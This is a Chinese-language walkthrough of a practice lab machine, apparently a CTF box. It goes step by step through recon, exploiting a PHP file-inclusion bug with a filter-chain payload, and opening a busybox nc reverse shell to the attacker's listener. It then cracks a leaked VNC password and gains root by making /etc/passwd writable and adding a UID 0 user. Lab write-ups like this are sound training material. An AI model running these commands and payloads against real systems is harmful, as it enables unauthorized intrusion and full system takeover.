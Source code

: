 # **一、信息收集**

## **1. 主机发现与端口扫描**

首先在本地网络中使用 `arp-scan` 发现目标主机IP，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.140 08:00:27:23:44:a3       PCS Systemtechnik GmbH
...
```

**端口扫描:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.140
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5901/tcp open  vnc-1
...
```

扫描结果表明，目标主机IP为 `192.168.205.140`，开放了 **22 (SSH)**、**80 (HTTP)** 和 **5901 (VNC)** 端口。

**VNC服务侦察:**
对5901端口进行详细的服务扫描，确认其为VNC服务，并支持标准的密码认证，这为后续的横向移动提供了潜在的攻击面。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p5901 -sV -sC 192.168.205.140
...
PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
...
```

# **二、漏洞发现与初始访问**

## **1. Web服务LFI漏洞**

访问80端口，发现是一个LFI漏洞的测试页面。通过 `file` 参数可以包含任意文件。

**验证LFI漏洞:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.140/index.php?file=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
todd:x:1000:1000:,,,:/home/todd:/bin/bash
...
```

成功读取 `/etc/passwd` 文件，确认了LFI漏洞的存在。

## **2. LFI Bypass `disable_functions` RCE**

通过`php://filter`读取`phpinfo`发现，目标PHP环境禁用了 `system`, `passthru`, `shell_exec` 等常用命令执行函数，导致传统的LFI to RCE方法失效。

```
disable_functions	system,passthru,shell_exec,proc_open,pcntl_exec,dl
```

然而，我们可以换一个常用命令执行函数，最终绕过`disable_functions`的限制来执行代码。

我们使用 `php_filter_chain_generator` 工具来生成能够执行 `exec($_GET["0"]);` 的Payload。

> https://github.com/synacktiv/php_filter_chain_generator

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/php_filter_chain_generator]
└─$ python3 php_filter_chain_generator.py --chain '<?php exec($_GET["0"]); ?>'

[+] The following gadget chain will generate the following code : <?php exec($_GET["0"]); ?>
php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp
```

## **3. 获取 www-data Shell**

将生成的Payload附加到URL中，并通过 `0` 参数传递反弹shell命令，在本地开启监听，成功获取 `www-data` 用户的交互式Shell。

**本地监听:**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/php_filter_chain_generator]
└─$ nc -lvnp 8888
```

**执行Payload获取Shell:**
(将 `[CHAIN]` 替换为上面工具生成的完整过滤器链)

```bash
http://192.168.205.140/index.php?file=[CHAIN]&0=busybox nc 192.168.205.128 8888 -e /bin/bash
```

**获取Shell并稳定TTY:**

```bash
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.140] 48454
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 使用 script 稳定Shell
script /dev/null -c bash
# 使用 Ctrl+Z 将其置于后台，然后使用 stty 修复终端
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

# **三、权限提升**

## **1. www-data -> todd (横向移动)**

在 `www-data` shell中进行信息搜集，在用户 `todd` 的家目录下发现了一个全局可读的VNC密码备份文件。

```bash
www-data@VNC1:/home/todd/.vnc$ ls -al
...
-rw-r--r--  1 root root      8 Jul 28 22:05 passwd.bak
...
www-data@VNC1:/home/todd/.vnc$ base64 passwd.bak 
QMypcY/7jpE=
```

这是一个典型的错误配置。我们将这个Base64编码的密码哈希复制到本地进行破解。我们使用 `vncpwd` 工具，该工具专门用于解密这类VNC密码文件。

**在Kali上破解VNC密码:**

```bash
# 克隆并编译工具
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ git clone https://github.com/jeroennijhof/vncpwd.git
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cd vncpwd && make

# 将从目标机获取的base64字符串解码回文件
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/vncpwd]
└─$ echo 'QMypcY/7jpE=' |base64 -d > passwd

# 执行解密
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/vncpwd]
└─$ ./vncpwd passwd                        
Password: vncpassw
```

成功解密出VNC密码为 `vncpassw`。使用 `vncviewer` 和此密码连接到目标的5901端口（这里需要图形化桌面）。

```bash
┌──(kali㉿kali)-[~]
└─$ vncviewer 192.168.205.140:1
...
Password: vncpassw
Authentication successful
...
```

成功登录，获取 `todd` 用户的图形化桌面会话。在该用户家目录下找到第一个flag。

```bash
www-data@VNC1:/home/todd$ cat user.txt 
12f54a96f64443246930da001cafda8b
```

## **2. todd -> root (垂直提权)**

在 `todd` 用户的会话中进行提权信息搜集。首先检查文件的特殊能力（Capabilities）。

```bash
todd@VNC1:~$ getcap -r / 2>/dev/null
...
/home/todd/Videos/python3.9 = cap_fowner+ep
```

发现一个位于用户家目录下的 `python3.9` 可执行文件被赋予了 `cap_fowner` 能力。该能力允许进程**无视文件权限**，更改文件的所有者和**权限**。

直接利用该能力 `setuid(0)` 的尝试失败了。

```bash
todd@VNC1:~$ /home/todd/Videos/python3.9 -c 'import os; os.setuid(0); os.system("/bin/sh")'
PermissionError: [Errno 1] Operation not permitted
```

但是，`chmod` 操作并未被限制。因此，我们可以利用此能力将 `/etc/passwd` 文件变为全局可写，然后添加一个UID为0的新用户来实现提权。

**利用`cap_fowner`修改`/etc/passwd`权限:**

```bash
todd@VNC1:~$ /home/todd/Videos/python3.9 -c "import os; os.chmod('/etc/passwd', 0o777)"
todd@VNC1:~$ ls -al /etc/passwd
-rwxrwxrwx 1 root root 1853 Jul 28 10:17 /etc/passwd
```

成功修改权限。现在，我们向 `/etc/passwd` 文件中追加一个新用户 `b`，其UID和GID均为0，密码为 `abcdefg` (使用`$1$`的MD5哈希)。

```bash
todd@VNC1:~$ echo 'b:$1$AydoDDh4$tEky6m30.0nY3HZ8FgoGI0:0:0::/root:/bin/bash' >> /etc/passwd
```

**切换用户并获取最终Flag:**

```bash
todd@VNC1:~$ su b
Password: abcdefg
root@VNC1:~# id
uid=0(root) gid=0(root) groups=0(root)
root@VNC1:~# cat /root/root.txt /home/todd/user.txt 
flag{root-60b725f10c9c85c70d97880dfe8191b3}
12f54a96f64443246930da001cafda8b
```

至此，成功获取root权限，靶机完全攻破。